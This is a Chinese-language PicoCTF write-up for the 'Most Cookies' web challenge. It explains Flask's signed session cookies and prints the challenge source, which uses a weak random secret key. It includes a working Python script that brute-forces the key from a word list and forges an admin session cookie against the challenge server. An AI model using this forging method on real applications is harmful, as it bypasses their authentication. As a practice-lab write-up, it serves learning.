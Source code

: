 ```yaml
---
title: PicoCTF - Most Cookies
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - Most Cookies
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Python Flask session 學習心得](https://vocus.cc/article/634c1c7efd89780001237de9)
> 在Flask將資料儲存在session這個object裡面時，可看成是儲存在client端，因為資料其實是存在web server，每次新增內容到session就會新增一個新的cookie(cryptographically-signed cookies)，並透過secret_key做簽章。需注意的是這所謂的「secret_key」並不是用於加密(切勿儲存機密資料)，而是用來做數位簽章確認資料的完整性，簡單說是每個人都可以知道cookie裡面的資料，但只有server知道cookie是否被串改，如果被串改就無法登入該帳戶。

## Source code
:::spoiler Source Code
```python=
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```
:::

## Recon
這一題看起來很簡單，我一開始也想說只要用Burp的intruder爆破name就好，不過看了一下sauce，發現他還有一個驗證機制，就是判斷cookie的value要是admin，但看了一下cookie的形式發現有點類似JWT的感覺`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZJEZ8A.b5j77V6nA0V6dzYvM_hg3yYRgJc`(當然它不是JWT只是形式有點像)，尤其是這學期修了CNS，所以對JWT直覺有點難搞，果不其然，在sauce的第7行有設定`secret_key`當作session簽章的依據，然後在`/display`的地方進行驗證
1. `name`參數要有值且必須是`cookie_names` list的其中一種
2. session的`very_auth`的value一定要是admin
3. session的signature也要forge

## Exploit - Brute Force
```python=
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation=self.key_derivation,
			digest_method=self.digest_method
		)
		return URLSafeTimedSerializer(secret_key, salt=self.salt,
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	for name in cookie_names:
		session = {}
		session["very_auth"] = "admin"
		cookie = encodeFlaskCookie(name, session)
		r = requests.get("http://mercury.picoctf.net:6259/display", cookies={"session":cookie}, allow_redirects=False)
		if "picoCTF" in r.text:
			print(r.text)
			break
```

## Reference
[picoCTF 2021 Most Cookies](https://youtu.be/8DrqOFr_SV8)
[manageFlaskSession.py source code](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)
[Python Web Flask — 如何透過Form取得資料](https://medium.com/seaniap/python-web-flask-如何透過form取得資料-7a63ebf9ff1f)
[[Flask教學] Flask Session 使用方法和介紹](https://www.maxlist.xyz/2019/06/29/flask-session/)
[Most Cookies - Write up 1](https://picoctf2021.haydenhousen.com/web-exploitation/most-cookies)
[Most Cookies - Write up 2](https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Web%20Exploitation/Most%20Cookies/MostCookies.md)